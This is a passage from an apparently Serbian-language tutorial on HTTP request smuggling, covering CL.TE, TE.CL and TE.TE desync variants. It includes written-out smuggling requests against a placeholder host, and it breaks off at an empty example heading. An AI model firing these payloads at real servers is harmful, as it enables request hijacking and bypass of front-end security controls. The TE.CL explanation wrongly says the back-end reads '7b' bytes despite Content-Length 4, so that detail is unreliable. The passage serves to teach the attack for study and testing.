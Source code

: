 ```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 30
Connection: keep-alive
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
Foo: x
```

#### TE.CL Ranjivost (Transfer-Encoding korišćen od strane Front-End, Content-Length korišćen od strane Back-End)

* **Front-End (TE):** Obradjuje zahtev na osnovu `Transfer-Encoding` zaglavlja.
* **Back-End (CL):** Obradjuje zahtev na osnovu `Content-Length` zaglavlja.
* **Scenario Napada:**
* Napadač šalje chunked zahtev gde se veličina chunk-a (`7b`) i stvarna dužina sadržaja (`Content-Length: 4`) ne poklapaju.
* Front-end server, poštujući `Transfer-Encoding`, prosleđuje ceo zahtev back-end serveru.
* Back-end server, poštujući `Content-Length`, obrađuje samo početni deo zahteva (`7b` bajtova), ostavljajući ostatak kao deo nenamernog naknadnog zahteva.
* **Primer:**

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 4
Connection: keep-alive
Transfer-Encoding: chunked

7b
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 30

x=
0

```

#### TE.TE Vulnerabilnost (Transfer-Encoding korišćen od strane oba, sa obfuscacijom)

* **Serveri:** Oba podržavaju `Transfer-Encoding`, ali jedan može biti prevaren da ga ignoriše putem obfuscacije.
* **Scenario napada:**
* Napadač šalje zahtev sa obfuscated `Transfer-Encoding` zaglavljima.
* Zavisno od toga koji server (prednji ili zadnji) ne uspe da prepozna obfuscaciju, može se iskoristiti CL.TE ili TE.CL vulnerabilnost.
* Neobrađeni deo zahteva, viđen od strane jednog od servera, postaje deo narednog zahteva, što dovodi do krijumčarenja.
* **Primer:**
